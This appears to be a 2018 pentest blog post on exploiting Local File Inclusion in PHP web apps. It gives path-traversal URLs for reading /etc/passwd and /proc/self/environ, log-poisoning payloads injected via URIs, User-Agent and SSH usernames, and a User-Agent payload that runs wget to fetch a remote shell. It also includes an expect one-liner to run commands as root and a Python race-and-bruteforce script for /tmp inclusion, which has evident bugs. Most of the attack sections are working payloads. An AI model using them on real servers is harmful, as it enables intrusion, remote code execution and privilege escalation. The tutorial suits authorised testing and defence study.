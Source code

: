```yaml
---
layout: post
title:  "Exploiting Local File Includes"
date:   2018-07-27 13:49:33 +0000
tags: [Web Application, pentest, redteam, blueteam]
---
```

![](/assets/padlock.png)

Local File Includes (LFI) is an easy way for an attacker to view files on a server that were not meant to be viewed or retrieved. Through either a mis-configured on the server code or bad programming a would-be attacker can potentially view local Operating System files in the current web-page.

## Exploiting LFI
If you can include files from local application/web server, below is the most basic test for LFI:
```
http://vulnsite.com?exec=aaa/../../../../../etc/passwd
```
This initial test is usually successful as “/etc/passwd’’ file usually as read-world permissions. The application server typically runs as “apache’’ thus denying permission to read “/etc/shadow’’ which usually has stricter permissions. Note: this may be different for IoT devices as they typically run as root!

## Code Execution
Requirements: PHP installed.

There are quite a few nice articles on internet on how one can do code execution from LFI. But essentially, you need php installed and then you try to inject php code into certain files and then try to include these files. These files typically are:
* Apache access logs
* Apache error logs
* /proc/self/environ
* /var/log/apache/error.log

On this occasion the ‘apache’ user had access to read the error logs. So, when you access a URI such as:
```
http://vuln.com/foo%3c%3fphp%20passthru('id')%20%3f%3e
```
It adds the following line to Apache’s error log:
```
404 file not found foo<?php passthru(’id’);?>
```
Now, you can include the error log files and execute the OS code:
```
http://vulnsite.com?exec=aaa/../../../../../usr/local/apache/logs/error_logs%00a
```

## /proc/self/environ
Now lets see if /proc/self/environ is accessible? We replace /etc/passwd with /proc/self/environ
```
www.website.com/view.php?page=../../../../../proc/self/environ
```
If you get something like the below, its highly likely it is exploitable:
```
DOCUMENT_ROOT=/home/sirgod/public_html GATEWAY_INTERFACE=CGI/1.1 HTTP_ACCEPT=text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1 HTTP_COOKIE=PHPSESSID=134cc7261b341231b9594844ac2ad7ac HTTP_HOST=www.website.com HTTP_REFERER=http://www.website.com/index.php?view=../../../../../../etc/passwd HTTP_USER_AGENT=Opera/9.80 (Windows NT 5.1; U; en) Presto/2.2.15 Version/10.00 PATH=/bin:/usr/bin QUERY_STRING=view=..%2F..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron REDIRECT_STATUS=200 REMOTE_ADDR=6x.1xx.4x.1xx REMOTE_PORT=35665 REQUEST_METHOD=GET REQUEST_URI=/index.php?view=..%2F..%2F..%2F..%2F..%2F..%2Fproc%2Fself%2Fenviron SCRIPT_FILENAME=/home/sirgod/public_html/index.php SCRIPT_NAME=/index.php SERVER_ADDR=1xx.1xx.1xx.6x SERVER_ADMIN=webmaster@website.com SERVER_NAME=www.website.com SERVER_PORT=80 SERVER_PROTOCOL=HTTP/1.0 SERVER_SIGNATURE=
Apache/1.3.37 (Unix) mod_ssl/2.2.11 OpenSSL/0.9.8i DAV/2 mod_auth_passthrough/2.1 mod_bwlimited/1.4 FrontPage/5.0.2.2635 Server at www.website.com Port 80
```
If you got a blank page or an error? /proc/self/environ is not accessible or the OS is likely FreeBSD and not vulnerable to this particular attack.

Now let’s inject our malicious code in proc/self/environ.How we can do that?We can inject our code in User-Agent HTTP Header.

Use Tamper Data Addon for Firefox to change the User-Agent, (or equally another intercepting proxy).
```
<?system(‘wget http://vuln.com/Shells/gny.txt -O shell.php’);?>
```
Start Tamper Data in Firefox and request the LFI similar to (you will have to adapt the URL for your vulnerable website):
```
www.website.com/view.php?page=../../../../../proc/self/environ
```
A PHP-shell should then be available at:
```
www.website.com/shell.php
SSH and /var/log/auth.log
ssh “<?php echo system($_GET[“cmd”]);exit;?>”@example.com
Code should be stored in “/var/log/auth.log’’.
```
Include this log file (“/var/log/auth.log’’) for the win!

## Getting Root
If you are lucky enough to find a password in a clear text file, how could you exploit this?….

After researching the idea, we thought of a way to use “expect’’ with the following 1 line of php script:
```
<?php passthru(‘echo -e \’#!/usr/bin/expect -f\nset password [lrange $argv 0 0]; set cmd [lrange $argv 1 1];set timeout -1; spawn su -c “$cmd” ;
match_max 100000 ;expect “*?assword:*”; send — “$password\r”; send — “\r”; expect eof\’>/tmp/su.exp&/usr/bin/expect /tmp/su.exp passw0rd whoami>>/tmp/out.txt’);?>
```
This script will do the following:
* create an expect script(/tmp/su.exp) which will take the root (su) password and command to execute as argument.
* run the expect script with the root password and command to run as root.

## Getting Root 2
An LFI vulnerability on a pentest once revealed server logs, and “auth.log” was world readable!

By default, OpenSSH makes an entry (consisting of the user name and other data) to auth.log for every authentication attempt made to the ssh daemon. Knowing this, I did some quick testing and found that I could inject php code into auth.log from the user name field of an ssh client by attempting to authenticate. The command took some time to get working right as bash requires finesse for processing special characters, but after some troubleshooting, I came up with the following:
```
<?php echo system($_GET[“cmd”]);exit;?>’@<host>
```
One issue we encountered is that OpenSSH makes 2 entries containing the user name to auth.log for every authentication attempt. In the following example, only one authentication attempt was made, but, as you can see, it appears in the log 2x times.
```
May 10 21:26:57 host sshd[17594]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=host.localdomain user=
<?php echo system($_GET[“cmd”]);exit;?>
May 10 21:26:59 host sshd[17592]: error: PAM: Authentication failure for
<?php echo system($_GET[“cmd”]);exit;?> from host.localdomain
```
The injected command will run three unless php execution is terminated after the first command. We did this above with the exit; command. The unfortunate side effect is that you have one chance to get this right. Otherwise, you have to wait until the log cycles before you can make another attempt. Here is what the final product looked like with the addition of a pre-format tag:
```
http://<host>/index.php?page=../../../../var/log/auth.log?cmd=ls+-lh+/var/log
total 14M
drwxr-xr-x 2 root root 4.0K Apr 2 20:53 ConsoleKit
-rw-r — r — 1 root user 15K May 10 17:03 Xorg.0.log
-rw-r — r — 1 root user 15K May 10 16:00 Xorg.0.log.old
-rw-r — r — 1 root user 7.4K Aug 10 2009 Xorg.6.log
-rw-r — r — 1 root user 7.4K Aug 10 2009 Xorg.6.log.old
drwxr-xr-x 2 apache apache 4.0K May 8 03:10 apache2
…
```
## Abusing tmp
So the plan is to:

Upload a file and trigger a self-inclusion.
Repeat step-1 many times to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0–9a-zA-Z]{6}

Enjoy our shell.

```
import itertools
import requests
import sys
print(‘[+] Trying to win the race’)
f = {‘file’: open(‘shell.php’, ‘rb’)}
for _ in range(4096 * 4096):
 requests.post(‘http://target.com/index.php?c=index.php', f)
print(‘[+] Bruteforcing the inclusion’)
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
 url = ‘http://target.com/index.php?c=/tmp/php' + fname
 r = requests.get(url)
 if ‘load average’ in r.text: # <?php echo system(‘uptime’);
 print(‘[+] We have got a shell: ‘ + url)
 sys.exit(0)
print(‘[x] Something went wrong, please try again’)
```
